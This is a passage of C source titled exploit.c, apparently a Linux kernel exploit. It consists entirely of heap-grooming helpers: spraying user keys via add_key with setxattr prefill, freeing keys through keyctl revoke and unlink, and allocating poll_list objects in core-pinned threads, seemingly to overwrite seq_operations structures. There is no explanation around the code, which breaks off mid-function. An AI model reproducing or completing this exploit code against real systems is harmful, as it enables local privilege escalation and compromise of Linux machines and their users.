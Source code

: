 ```exploit.c
int num_keys = 0;
ulong _alloc_key_prefill_ulong_val = 0;
void _alloc_key_prefill_ulong() {
  static char *data = NULL;
  if (data == NULL) data = calloc(0x1000, 1);
  //for (int ix = 0; ix != 32 / 8; ++ix) ((ulong*)data)[ix] = _alloc_key_prefill_ulong_val;
  ((ulong*)data)[0] = _alloc_key_prefill_ulong_val;
  setxattr("/home/user/.bashrc", "user.x", data, 32, XATTR_CREATE);
}
void _alloc_key_prefill_null(void) {
  _alloc_key_prefill_ulong_val = 0;
  _alloc_key_prefill_ulong();
}
void alloc_key(char *payload, int size, void (*prefill)(void)) {
  static char *desc = NULL;
  if (desc == NULL) desc = calloc(1, 0x1000);

  sprintf(desc, "key_%d", num_keys);
  if (prefill != NULL) prefill();
  keys[num_keys] = add_key("user", desc, payload, size, KEY_SPEC_PROCESS_KEYRING);
  if (keys[num_keys] < 0) errExit("alloc_key");
  num_keys++;
}
void spray_keys(int num, char c) {
  static char *payload = NULL;
  if (payload == NULL) payload = calloc(1, 0x1000);
  char *key_payload = malloc(SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS);
  memset(key_payload, c, SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS);

  for (int ix = 0; ix != num; ++ix) alloc_key(key_payload, SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS, _alloc_key_prefill_null);
}
void free_key(key_serial_t key) {
  if (keyctl_revoke(key) != 0) errExit("keyctl_revoke");
  if (keyctl_unlink(key, KEY_SPEC_PROCESS_KEYRING) != 0) errExit("keyctl_unlink");
  --num_keys;
}

struct alloc_poll_list_t {
  int fd;
  int id;
  int num_size;
  int timeout_ms;
};
void* alloc_poll_list(void *_arg) {
  struct pollfd fds[NUM_POLLFD];
  struct alloc_poll_list_t *arg = (struct alloc_poll_list_t *)_arg;
  assert(arg->fd >= 2);

  for (int ix = 0; ix != arg->num_size; ++ix) {
    fds[ix].fd = arg->fd;
    fds[ix].events = POLLERR;
  }
  pthread_mutex_lock(&mutex);
    ++num_threads;
  pthread_mutex_unlock(&mutex);

  thread_assign_to_core(0);
  if (poll(fds, arg->num_size, arg->timeout_ms) != 0) errExit("poll");

  pthread_mutex_lock(&mutex);
    --num_threads;
  pthread_mutex_unlock(&mutex);
```